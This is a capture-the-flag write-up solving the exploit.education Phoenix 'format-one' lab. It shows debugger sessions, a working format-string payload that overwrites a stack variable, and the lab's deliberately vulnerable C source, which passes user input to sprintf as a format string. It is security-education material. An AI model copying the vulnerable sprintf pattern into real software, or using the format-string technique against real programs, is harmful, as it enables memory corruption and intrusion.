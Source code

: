 # Phoenix format-one
https://exploit.education/phoenix/format-one/
### Result
`Well done, the 'changeme' variable has been changed correctly!`
### Setup
Same as `format-one` but I wanted `ASLR off`. I tried to run the container with additional privileges:

```
docker run -idt --name ctf --privileged --security-opt seccomp:unconfined duckll/ctf-box
docker container exec -it ctf bash
```
But a better idea may have been just to run `sudo sysctl -w kernel.randomize_va_space=0` on the host machine.

### Compile code
This is another `sprintf` challenge. Almost identical to the last but you have to modify the payload.

```
gcc -g -fno-stack-protector -z execstack -no-pie -o format_zero format_zero.c

format_one.c:34:24: warning: format not a string literal and no format arguments [-Wformat-security]
   sprintf(locals.dest, buffer);
```
### Reversing
##### No payload
```
# ./format_one
Welcome to format_one brought to you by https://exploit.education
AAAA
Uh oh, 'changeme' is not the magic value, it is 0x00000000
```
Finding the magic value:
```
# objdump -d format_one | grep cmp
  4005e6:	48 3d 58 10 60 00    	cmp    $0x601058,%rax
  400650:	80 3d 11 0a 20 00 00 	cmpb   $0x0,0x200a11(%rip)        # 601068 <completed.7697>
  4006fb:	3d 6c 4f 76 45       	cmp    $0x45764f6c,%eax
  400781:	48 39 dd             	cmp    %rbx,%rbp
```
That wasn't great as it included non-main code. What about:
```
# gdb -batch -ex 'file format_one' -ex 'disassemble main' | grep -i cmp
0x00000000004006fb <+116>:	cmp    eax,0x45764f6c
```
Checking how to construct the bytes:
```
# rabin2 -I format_one
arch     x86
baddr    0x400000
binsz    9152
bintype  elf
bits     64
canary   false
endian   little     <- endian order
```
The final payload must include: `"\x6c\x4f\x76\x45"`.
### Payloads
##### good payload from format_zero
```
gef➤  r
Starting program: /root/format_one
Welcome to format_one brought to you by https://exploit.education
%p %p %p %p
Uh oh, 'changeme' is not the magic value, it is 0x36783020
```
##### Create payload
`gef➤  shell echo "%p%p\x41\x41\x41\x41\x41\x41" > payload.txt`
##### Run payload
```
gef➤  r < payload.txt
Uh oh, 'changeme' is not the magic value, it is 0x3134785c
```

##### Create test payload
`# python -c 'print "%31x " + "\x41\x41\x41\x41"' > payload.txt`

##### Better way to find the local variables - look at the disassembly of main()
```
0x00000000004006e0 <+89>:	lea    rdx,[rbp-0x40]
0x00000000004006e4 <+93>:	lea    rax,[rbp-0x30]
```
##### Size of user input - 16 bytes
```
gef➤  p/d 0x40 - 0x30
$4 = 16
```
##### The user inputted buffer - size 16 bytes
```
gef➤  x/4wx $rbp-0x40
0x7fffffffe520:	0x78313325	0x41414120	0x00000a41	0x00000000

gef➤  x/s $rbp-0x40
0x7fffffffe520:	"%31x AAAA\n"
```
##### The destination buffer - size 32 bytes
```
gef➤  x/s $rbp-0x30
0x7fffffffe530:	< full of junk >
````

##### Watch memory
Once `sprintf` run, you observe the destination buffer fill.
```
gef➤  memory watch $rbp-0x30 8 qword
gef➤  n
──────────────────────────────────────────────────────────────── memory:0x7fffffffe530 ────
0x00007fffffffe530│+0x0000   0x2020202020202020   
0x00007fffffffe538│+0x0008   0x2020202020202020   
0x00007fffffffe540│+0x0010   0x6620202020202020   
0x00007fffffffe548│+0x0018   0x2030323565666666   
0x00007fffffffe550│+0x0020   0x0000000a41414141   
0x00007fffffffe558│+0x0028   0x0000000000000000   
0x00007fffffffe560│+0x0030   0x0000000000400730   
0x00007fffffffe568│+0x0038   0x00007ffff7a05b97   

```

### Result
##### Create final payload
You fill the `destination buffer` using the `format arguments`. Then you `little endian` the byte order.

The final payload is `"%31x lOvE"`.

`# python -c 'print "%31x " + "\x6c\x4f\x76\x45"' > payload.txt`



### Source code
```
 /*
 * Can you change the "changeme" variable?
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to format_one brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```
